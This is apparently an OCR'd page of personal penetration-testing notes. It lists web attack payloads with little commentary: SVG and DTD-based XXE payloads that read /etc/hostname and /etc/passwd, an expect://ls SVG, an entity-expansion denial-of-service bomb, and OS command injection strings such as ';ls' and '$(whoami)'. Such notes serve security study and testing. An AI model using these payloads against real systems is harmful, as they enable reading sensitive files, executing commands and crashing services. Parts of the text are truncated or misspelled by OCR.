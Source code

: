 **xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1"**

**height="200">**

**<image xlink:href="expect://ls"></image>**

**</svg>**

1. `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`

## **Exploiting XXE to retrieve data by repurposing a local DTD**

<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
'>
%local_dtd;
]>

## **XXE DoS (Denial of Service)**

Using recursive or large XML entities, attackers can overwhelm the system, causing memory or CPU exhaustion.

**Example:**

**<!DOCTYPE bomb [**

**<!ENTITY a "aaaaaaa" >**

**<!ENTITY b "&a;&a;&a;&a;&a;&a;" >**

**<!ENTITY c "&b;&b;&b;&b;&b;&b;" >**

**]>**

**<bomb>&c;</bomb>**

This recursive expansion will consume significant memory resource

# **OS command injection**

## **notes**

1- ;ls ⇒ ; to end any command before it

2-127.0.0.1&&ls ⇒ && to do the 2 orders

3-$(whoami) ⇒ to execute dircte
